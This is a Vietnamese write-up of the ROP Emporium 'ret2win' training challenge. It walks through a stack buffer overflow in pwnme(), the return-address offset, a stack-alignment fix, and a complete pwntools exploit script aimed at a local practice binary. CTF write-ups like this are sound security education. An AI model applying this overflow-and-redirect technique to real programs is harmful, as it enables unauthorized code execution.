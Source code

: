 # ROP_Emporium - ret2win

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Ở đây chỉ có 2 hàm thú vị:

Hàm pwnme()

![pwn.png](images/pwnme.png)

Và hàm ret2win()

![ret2win.png](images/ret2win.png)

Ở hàm pwnme() ta có thể thấy tại dòng thứ 10 cho phép ghi 0x38 ký tự vào biến **s** nhưng biến **s** chỉ được khai báo 0x20 bytes --> **Buffer Overflow**

# 2. Ý tưởng

Như tên đề bài là return to win. Vậy ta chỉ việc overwrite saved rip ở trong pwnme thành địa chỉ hàm win.

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Bởi vì địa chỉ của **return address** lớn hơn địa chỉ **biến nhập vào** 0x28 vì vậy ta chỉ việc tạo script để ghi đè saved rip thành địa chỉ hàm ret2win():

Nhưng khi đó RSP không chia hết cho 0x10 dẫn đến chương trình bị lỗi khi chạy

![stack1.png](images/stack1.png)

![sigsev.png](images/sigsev.png)

Ta sẽ bỏ qua phần printf để nhảy đến **[ret2win + 14]**

![stack2.png](images/stack2.png)

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./ret2win', checksec=False)

p = process("./ret2win")

#gdb.attach(p, gdbscript='''''')

payload = flat(
    cyclic(0x28),
    elf.sym['ret2win']+14
    )
p.sendlineafter(b">",payload)
p.interactive()

```

# 4. Lấy flag

![flag.png](images/flag.png)


